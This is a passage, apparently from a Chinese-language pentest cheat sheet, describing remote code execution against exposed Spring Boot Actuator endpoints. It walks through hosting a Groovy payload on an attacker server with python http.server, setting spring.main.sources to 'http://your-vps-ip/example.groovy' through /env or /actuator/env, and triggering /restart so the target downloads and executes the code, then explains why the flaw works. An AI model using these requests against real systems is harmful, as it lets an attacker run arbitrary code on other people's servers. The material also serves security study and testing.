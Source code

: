 ```php
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `groovy` 结尾的 `example.groovy` 文件，内容为需要执行的 groovy 代码，比如：

```php
Runtime.getRuntime().exec("open -a Calculator")
```

##### 步骤二：设置 spring.main.sources 属性

spring 1.x

```php
POST /env
Content-Type: application/x-www-form-urlencoded

spring.main.sources=http://your-vps-ip/example.groovy
```

spring 2.x

```php
POST /actuator/env
Content-Type: application/json

{"name":"spring.main.sources","value":"http://your-vps-ip/example.groovy"}
```

##### 步骤三：重启应用

spring 1.x

```php
POST /restart
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```php
POST /actuator/restart
Content-Type: application/json
```

#### 漏洞原理：

1. 目标机器可以通过 spring.main.sources 属性来设置创建 ApplicationContext 的额外源的 URL 地址
2. restart 重启应用后，程序会请求设置的 URL 地址
3. `spring-boot` 组件中的 `org.springframework.boot.BeanDefinitionLoader.java` 文件代码逻辑中会判断 url 是否以 `.groovy` 结尾
4. 如果 url 以 `.groovy` 结尾，则最终会执行文件内容中的 groovy 代码，造成 RCE 漏洞

#### 漏洞环境：
